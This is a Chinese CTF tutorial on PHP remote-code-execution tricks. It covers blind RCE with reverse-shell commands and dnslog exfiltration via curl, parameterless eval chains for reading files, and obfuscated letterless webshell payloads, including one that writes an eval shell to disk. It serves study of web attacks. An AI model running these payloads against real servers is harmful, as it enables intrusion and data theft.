



这篇文章介绍RCE的一些tricks

<!--More-->

# 0x01 无回显的RCE

在ctf中，有时会遇到无回显rce，就是说虽然可以进行命令执行，但却看不到命令执行的结果，也不知道命令是否被执行，借着这次总结rce的机会，就把它一起总结了

测试代码如下：

```php
<?php
  highlight_file(__FILE__);
$a=$_GET['a'];
exec("$a");
//$b=exec("$a");
//echo $b;
?>
```

命令执行函数我用的是exec,因为这个函数本身是没有回显的，拿来做测试简直不能再合适，想了解这个函数可以看这里：https://www.php.net/manual/zh/function.exec.php 这里我们直接输入命令是没有回显的：


我们首先用sleep命令看看命令是否被成功执行了，看下图它转了五秒之后才恢复说明命令是执行了的：


## 1.反弹shell

遇到这种无回显的命令执行，很常见的一个思路是反弹shell，因为它虽然不会将命令执行的结果输出在屏幕上，但实际上这个命令它是执行了的，那我们就将shell反弹到自己服务器上，然后再执行命令肯定就可以看到回显了

一般来讲我们反弹shell都用的bash -i >& /dev/tcp/ip/port 0>&1这条命令，但这里我不知道哪里出了问题，在docker中可以成功反弹但放到php命令执行中就反弹不了了，所以说无奈之下我就只能使用nc进行反弹，但其实这是很不实用的，因为很多docker中都没有安装nc，这里就先演示一下用nc反弹，利用nc -e /bin/sh ip port进行反弹：


## 2.dnslog外带数据法

首先讲讲dns，这里用一个比较官方的解释吧，摘自百度百科：

DNS（域名解析）：

域名解析是把域名指向网站空间IP，让人们通过注册的域名可以方便地访问到网站的一种服务。IP地址是网络上标识站点的数字地址，为了方便记忆，采用域名来代替IP地址标识站点地址。域名解析就是域名到IP地址的转换过程。域名的解析工作由DNS服务器完成。

域名解析也叫域名指向、服务器设置、域名配置以及反向IP登记等等。说得简单点就是将好记的域名解析成IP，服务由DNS服务器完成，是把域名解析到一个IP地址，然后在此IP地址的主机上将一个子目录与域名绑定。

而如果我们发起请求的目标不是IP地址而是域名的话，就一定会发生一次域名解析，那么假如我们有一个可控的二级域名，那么当它向下一层域名发起解析的时候，我们就能拿到它的域名解析请求。这就相当于配合dns请求完成对命令执行的判断，这就称之为dnslog。当然，发起一个dns请求需要通过linux中的ping命令或者curl命令哈

然后这里推荐一个dnslog的利用平台：ceye http://ceye.io/，我个人觉得挺好用的，当然大佬们也可以选择自己搭，注册账号之后，会给一个域名，当发起的请求中含有这个域名时，平台就会有记录。好了，铺垫结束，下面正式开始测试：


还是这一段代码，我们用分号;作为命令的分隔符，然后发起curl请求，然后最后用反引号执行命令，具体如下：


然后就可以到ceye平台上取看到我们发起的请求了，可以看到whoami的结果也已经在上面显示了出来：


然后我们就尝试执行其它的命令比如像ls之类的，但这里需要注意的一点是，如果我们直接执行ls的话，它只会返回第一条结果,具体如下图所示：


那么为了让它显示出剩余的结果，我们就需要用到linux的sed命令，用sed命令就可以实现对行的完美划分，这里利用题目不是很好演示，我就直接用kali进行演示，就像下图一样直接用就行，还是很方便的：


这样就可以完成任意的命令执行了，但是值得注意的是，因为有的字符可能会无法显示或者只显示部分信息，所以说执行命令的时候推荐使用base64编码，然后再解开就好：


## 例题解析——-BJDCTF 2nd duangShell

这道题buuctf上可以复现，先用kali恢复swp文件，然后得到源码：

```php
<!DOCTYPE html>
  <html lang="en">
  <head>
  <meta charset="UTF-8">
  <title>give me a girl</title>
  </head>
  <body>
  <center><h1>珍爱网</h1></center>
  </body>
  </html>
  <?php
  error_reporting(0);
echo "how can i give you source code? .swp?!"."<br>";
if (!isset($_POST['girl_friend'])) {
  die("where is P3rh4ps's girl friend ???");
} else {
  $girl = $_POST['girl_friend'];
  if (preg_match('/\>|\\\/', $girl)) {
    die('just girl');
  } else if (preg_match('/ls|phpinfo|cat|\%|\^|\~|base64|xxd|echo|\$/i', $girl)) {
    echo " <!-- He is p3 -->";
  } else {
    //duangShell~~~~
    exec($girl);
  }
}
```

可以看到，这就是一个有过滤情况下的无回显rce，虽然是看起来过滤的比较多，基本思路是反弹shell，但这个靶机在内网操作起来可能有点麻烦，而且像一些重要的比如curl反引号都没有被过滤掉，所以说我想尝试直接把数据外带出来，先尝试whoami发现没问题：


那就说明除了上面那些被禁的函数以外，可以执行任何命令，不过禁了ls是真的烦，然后由于它禁了$，上篇文章中讲到的找flag的语句cat $(find / -name flag*)就用不了了，我先盲猜一下它在根目录下名字叫flag，试试行不行，cat被过滤掉了我就直接用tac，这个问题不大，发现还真有这个文件：


只不过嘛，这个内容就很狗，还要让自己去找flag，那我就试试用find去找，说实话这时候我心里也没底，只能说试试，用的这条语句find / -name flag：


不过运气是真的好哈哈哈，直接出来了路径，那就稳了啊，直接读它就完事儿了：


出来了出来了，加上{}就是最终的flag，不过我看wp的时候方法都是用反弹shell做的，不知道我这种算不算非预期解，想了解那种方法的可以自行百度。

# 0x02 无参数的RCE

# 无参数rce

无参rce，就是说在无法传入参数的情况下，仅仅依靠传入没有参数的函数套娃就可以达到命令执行的效果，这在ctf中也算是一个比较常见的考点，接下来就来详细总结总结它的利用姿势

## 核心代码

```php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
  eval($_GET['code']);
}
```


这段代码的核心就是只允许函数而不允许函数中的参数，就是说传进去的值是一个字符串接一个()，那么这个字符串就会被替换为空，如果替换后只剩下;，那么这段代码就会被eval执行。而且因为这个正则表达式是递归调用的，所以说像a(b(c()));第一次匹配后就还剩下a(b());，第二次匹配后就还剩a();，第三次匹配后就还剩;了，所以说这一串a(b(c()))，就会被eval执行，但相反，像a(b('111'));这种存在参数的就不行，因为无论正则匹配多少次它的参数总是存在的。那假如遇到这种情况，我们就只能使用没有参数的php函数，

下面就来具体介绍一下：

## 1、getallheaders()

这个函数的作用是获取http所有的头部信息，也就是headers，然后我们可以用var_dump把它打印出来，但这个有个限制条件就是必须在apache的环境下可以使用，其它环境都是用不了的，我们到burp中去做演示,测试代码如下：

```php
<?php
  highlight_file(__FILE__);
if(isset($_GET['code'])){
  if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);}
  else
    die('nonono');}
else
  echo('please input code');
?>
```


可以看到，所有的头部信息都已经作为了一个**数组**打印了出来，在实际的运用中，我们肯定不需要这么多条，不然它到底执行哪一条呢？所以我们需要选择一条出来然后就执行它，这里就需要用到php中操纵数组的函数了，这里常见的是利用end()函数取出最后一位，这里的效果如下图所示，而且它只会以**字符串**的形式取出**值**而不会取出键，所以说键名随便取就行:


那我们把最前面的var_dump改成eval，不就可以执行phpinfo了吗，换言之，就可以实现任意php代码的代码执行了，那在没有过滤的情况下执行命令也就轻而易举了，具体效果如下图所示：


## 2、get_defined_vars()

上面说到了，getallheaders()是有局限性的，因为如果中间件不是apache的话，它就用不了了，那我们就介绍一种更为普遍的方法get_defined_vars()，这种方法其实和上面那种方法原理是差不多的：


可以看到，它并不是获取的headers，而是获取的四个全局变量$_GET $_POST $_FILES $_COOKIE，而它的返回值是一个二维数组，我们利用GET方式传入的参数在第一个数组中。这里我们就需要先将二维数组转换为一维数组，这里我们用到current()函数，这个函数的作用是返回数组中的当前单元，而它的默认是第一个单元，也就是我们GET方式传入的参数，我们可以看看实际效果：


这里可以看到成功输出了我们二维数组中的第一个数据，也就是将GET的数据全部输出了出来，相当于它就已经变成了一个一维数组了，那按照我们上面的方法，我们就可以利用end()函数以字符串的形式取出最后的值，然后直接eval执行就行了，这里和上面就是一样的了：


总结一下，这种方法和第一种方法几乎是一样的，就多了一步，就是利用current()函数将二维数组转换为一维数组，如果大家还是不了解current()函数的用法，可以接着往下看文章，会具体介绍的哦

这里还有一个专门针对$_FILES下手的方法，可以参考这篇文章：https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/

## 3、session_id()

这种方法和前面的也差不太多，这种方法简单来说就是把恶意代码写到COOKIE的PHPSESSID中，然后利用session_id()这个函数去读取它，返回一个字符串，然后我们就可以用eval去直接执行了，这里有一点要注意的就是session_id()要开启session才能用，所以说要先session_start()，这里我们先试着把PHPSESSID的值取出来：


直接出来就是字符串，那就非常完美，我们就不用去做任何的转换了，但这里要注意的是，PHPSESSIID中只能有A-Z a-z 0-9，-，所以说我们要先将恶意代码16进制编码以后再插入进去，而在php中，将16进制转换为字符串的函数为hex2bin




那我们就可以开始构造了，首先把PHPSESSID的值替换成这个，然后在前面把var_dump换成eval就可以成功执行了，如图：


成功出现phpinfo，稳稳当当，这种方法我认为是最好的一种方法，很容易理解，只是记得要将恶意代码先16进制编码一下哦

## 4.php函数直接读取文件

上面我们一直在想办法在进行rce，但有的情况下确实无法进行rce时，我们就要想办法直接利用php函数完成对目录以及文件的操作， 接下来我们就来介绍这些函数：

### 1.localeconv

官方解释：localeconv() 函数返回一个包含本地数字及货币格式信息的数组。


这个函数其实之前我一直搞不懂它是干什么的，为什么在这里有用，但实践出真知，我们在测试代码中将localeconv()的返回结果输出出来，这里很神奇的事就发生了，它返回的是一个二维数组，而它的第一位居然是一个点.，那按照我们上面讲的，是可以利用current()函数将这个点取出来的，但这个点有什么用呢？点代表的是当前目录！那就很好理解了，我们可以利用这个点完成遍历目录的操作！相当于就是linux中的ls，具体请看下图：


### 2.scandir

这个函数很好理解，就是列出目录中的文件和目录


### 3.current(pos)

这里首先声明，pos()函数是current()函数的别名，他们俩是完全一样的哈

这个函数我们前面已经用的很多了，它的作用就是输出数组中当前元素的值，只输出值而忽略掉键，默认是数组中的第一个值，如果要移动可以用下列方法进行移动：



### 4.chdir()

这个函数是用来跳目录的，有时想读的文件不在当前目录下就用这个来切换，因为scandir()会将这个目录下的文件和目录都列出来，那么利用操作数组的函数将内部指针移到我们想要的目录上然后直接用chdir切就好了，如果要向上跳就要构造chdir('..')



### 5.array_reverse()

将整个数组倒过来，有的时候当我们想读的文件比较靠后时，就可以用这个函数把它倒过来，就可以少用几个next()

### 6.highlight_file()

打印输出或者返回 filename 文件中语法高亮版本的代码，相当于就是用来读取文件的

## 例题解析——–GXYCTF 2019禁止套娃

这道题首先是一个git源码泄露，我们先用GitHack把源码跑下来，内容如下：

```php
<?php
  include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
  if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
    if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
      if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
        // echo $_GET['exp'];
        @eval($_GET['exp']);
      }
      else{
        die("还差一点哦！");
      }
    }
    else{
      die("再好好想想！");
    }
  }
  else{
    die("还想读flag，臭弟弟！");
  }
}
  // highlight_file(__FILE__);
  ?>
```

可以看出它是一个有过滤的无参rce，由于它过滤掉了et，导致我们前两种的方法都用不了，而且它也过滤了hex bin，第三种方法也不能像我们上面讲的一样先16进制编码了，而且我抓包以后都看不到PHPSESSID的参数，估计第三种方法也用不了，但有了前面的铺垫，用第四种方法就可以很简单的解决了，首先遍历当前目录：


可以看到flag.php是倒数第二个，那我们就把它反转一下，然后再用一个next()就是flag.php这个文件了


胜利就在眼前，直接highlight_file读取这个文件就拿到flag了：


思路总结

```php
scandir(current(localeconv()))是查看当前目录
加上array_reverse()是将数组反转，即Array([0]=>index.php[1]=>flag.php=>[2].git[3]=>..[4]=>.)
再加上next()表示内部指针指向数组的下一个元素，并输出，即指向flag.php
highlight_file()打印输出或者返回 filename 文件中语法高亮版本的代码
```

# 0x03 无字母数字的RCE

 无数字字母rce，这是一个老生常谈的问题，就是不利用数字和字母构造出webshell，从而能够执行我们的命令。

## 核心代码

```php
<?php
  highlight_file(__FILE__);
$code = $_GET['code'];
if(preg_match("/[A-Za-z0-9]+/",$code)){
  die("hacker!");
}
@eval($code);
?>
```

这里的思路就是利用各种非数字字母的字符，经过各种变换（异或、取反、自增），构造出单个的字母字符，然后把单个字符拼接成一个函数名，比如说assert，然后就可以动态执行了。所以说这里的核心就是非字母的字符换成字母字符。

## 1、异或^

这里的异或，指的是php按位异或，在php中，两个字符进行异或操作后，得到的依然是**一个字符**，所以说当我们想得到a-z中某个字母时，就可以找到两个非字母数字的字符，只要他们俩的异或结果是这个字母即可。而在php中，两个字符进行异或时，会先将字符串转换成ascii码值，再将这个值转换成二进制，然后一位一位的进行按位异或，异或的规则是：1^1=0,1^0=1,0^1=1,0^0=0，简单的来说就是**相同为零，不同为一**，ascii码表参考如下：


那假如说我们想要构造出小写字母a，按照上表，a的二进制为01100001，那我们就可以选择两个非字母数字的字符进行异或，这里有很多种选法，我选择的是@和!这两个，成功异或出了字母a：


然后我们就可以按照这个方法进行拼接了，我们的目标字符串是assert($_POST[_])，其实很简单，我们需要拼接的字母只有九个而已，拼接结果如下，因为很多都是不可见的字符，所以说我就先url编码了一下（url编码就是它的16进制编码前面加个%哈）：

```php
a:'%40'^'%21' ; s:'%7B'^'%08' ; s:'%7B'^'%08' ; e:'%7B'^'%1E' ; r:'%7E'^'%0C' ; t:'%7C'^'%08'
P:'%0D'^'%5D' ; O:'%0F'^'%40' ; S:'%0E'^'%5D' ; T:'%0B'^'%5F'
    拼接起来：
$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');  // $_=assert
$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');  // $__=_POST
$___=$$__; //$___=$_POST
$_($___[_]);//assert($_POST[_]);
放到一排就是：
$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');$___=$$__;$_($___[_]);
```

以上是我自己构造的，经检验没有问题，构造结果可能会有很多种，但方法都是一样的，这样就可以成功进行rce了。


2、取反~

取反也是php中的一种运算符，关于取反的具体规则可以参考这篇文章：https://blog.csdn.net/WilliamsWayne/article/details/78259501，写得挺详细的，取反的好处就是，它每一个字符取反之后都会变成另一个字符，不像异或需要两个字符才能构造出一个字符。

方法一

首先，我们想要构造的依然是assert($_POST[_])这条语句，和上面一样，我们先用php的取反符号~将字符串assert和_POST取反，这里需要注意的是，由于它取反之后会有大量不可显字符，所以我们同样需要将其url编码，然后当我们要用的时候，再利用取反符号把它们取回来即可，具体请见下图：


可以看到，assert的取反结果是%9E%8C%8C%9A%8D%8B，_POST的取反结果是%A0%AF%B0%AC%AB，那我们就开始构造：

```php
$_=~(%9E%8C%8C%9A%8D%8B);    //这里利用取反符号把它取回来，$_=assert
$__=~(%A0%AF%B0%AC%AB);      //$__=_POST
$___=$$__;                   //$___=$_POST
$_($___[_]);                 //assert($_POST[_]);
放到一排就是：
$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);
```


方法二

方法二是我看p神博客才了解到的方法，就是说利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，然后再进行一次取反操作，就能得到一个我们想要的字符，这里的原理我确实是不知道，因为这里好像是涉及到计组知识而我现在还没学，害，现在就只有先学会怎么用，原理后面再补了


这里之所以会输出两个相同的r，就是因为里面$_{1}就是\x8d，然后这里对\x86进行取反就能得到r，原理不详

总之我们需要知道的是，对于一个汉字进行~($x{0})或~($x{1})或~($x{2})的操作，可以得到某个ascii码的字符值，我们就可以利用这一点构造出webshell

```php
$_++;                //得到1，此时$_=1
$__ = "极";
$___ = ~($__{$_});   //得到a，此时$___="a"
$__ = "区";
$___ .= ~($__{$_});   //得到s，此时$___="as"
$___ .= ~($__{$_});   //此时$___="ass"
$__ = "皮";
$___ .= ~($__{$_});   //得到e，此时$___="asse"
$__ = "十";
$___ .= ~($__{$_});   //得到r，此时$___="asser"
$__ = "勺";
$___ .= ~($__{$_});   //得到t，此时$___="assert"
$____ = '_';          //$____='_'
$__ = "寸";
$____ .= ~($__{$_});   //得到P，此时$____="_P"
$__ = "小";
$____ .= ~($__{$_});   //得到O，此时$____="_PO"
$__ = "欠";
$____ .= ~($__{$_});   //得到S，此时$____="_POS"
$__ = "立";
$____ .= ~($__{$_});   //得到T，此时$____="_POST"
$_ = $$____;           //$_ = $_POST
$___($_[_]);           //assert($_POST[_])
放到一排就是：
$_++;$__ = "极";$___ = ~($__{$_});$__ = "区";$___ .= ~($__{$_});$___ .= ~($__{$_});$__ = "皮";$___ .= ~($__{$_});$__ = "十";$___ .= ~($__{$_});$__ = "勺";$___ .= ~($__{$_});$____ = '_';$__ = "寸";$____ .= ~($__{$_});$__ = "小";$____ .= ~($__{$_});$__ = "欠";$____ .= ~($__{$_});$__ = "立";$____ .= ~($__{$_});$_ = $$____;$___($_[_]);
```

由于不可见字符的原因，我们还是要进行url编码之后才能正常使用：

%24_%2B%2B%3B%24__%20%3D%20%22%E6%9E%81%22%3B%24___%20%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8C%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%9A%AE%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8D%81%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8B%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24____%20%3D%20'_'%3B%24__%20%3D%20%22%E5%AF%B8%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%B0%8F%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E6%AC%A0%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%AB%8B%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24_%20%3D%20%24%24____%3B%24___(%24_%5B_%5D)%3B


### 3、自增

在处理字符变量的算数运算时，PHP沿袭了Perl的习惯，而不是C语言的。在C语言中，它递增的是ASCII值,a = 'Z'; a++; 将把 a 变成 '['（'Z' 的 ASCII 值是 90，'[' 的 ASCII 值是 91），而在Perl中， $a = 'Z'; $a++; 将把 $a 变成'AA'。注意字符变量只能递增，不能递减，并且只支持纯字母（a-z 和 A-Z）。递增或递减其他字符变量则无效，原字符串没有变化。

也就是说，只要我们获得了小写字母a，就可以通过自增获得所有小写字母，当我们获得大写字母A，就可以获得所有大写字母了

正好，数组(Array)中就正好有大写字母A和小写字母a，而在PHP中，如果强制连接数组和字符串的话，数组就会被强制转换成字符串，它的值就为Array，那取它的第一个子母，就拿到A了，那有了a和A，相当于我们就可以拿到a-z和A-Z中的所有字母了


这里我就直接给出p神的构造结果了，构造出来很长，而且我感觉也不是特别实用：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

放到一排再url编码之后是：

```php
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B
```

说实话真的太长了，要是稍微有个长度限制就用不了，所以说这种方法只做了解即可

## php5和php7的区别

在研究无数字字母rce的过程中，一个很重要的函数就是assert，但在php5的版本和php7的版本中，它是有一些区别的，我们上面的测试都是基于php5进行的，在php5中assert是一个函数，我们可以通过$f='assert';$f(...);这样的方法来动态执行任意代码，在php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，但是在php7中，我们可以使用($a)()这种方法来执行命令，那相当于我们对phpinfo取反后就可以直接执行了，也可以选择file_put_contents()来写入shell，在php5中这样是不行的：


### 例子一

在php7中，因为可以使用($a)()这种方法来执行命令，所以说我们利用call_user_func()来举例，(call_user_func)(system,whoami,'')即可执行whoami的命令：


*那构造出来的结果就为：*

```php
(~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c)(~%8c%86%8c%8b%9a%92,~%88%97%90%9e%92%96,'');
```

### 例子二

再来一个在php7中利用file_put_contents()写入shell的例子：


我们要构造的语句为：file_put_contents('4.php','<?php eval(\$_POST[1]);');构造出来就为：

```php
(~(%99%96%93%9A%A0%8F%8A%8B%A0%9C%90%91%8B%9A%91%8B%8C))(~(%CB%D1%8F%97%8F),~(%C3%C0%8F%97%8F%DF%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4));
```

这里要注意的就是要有该目录的写入权限哈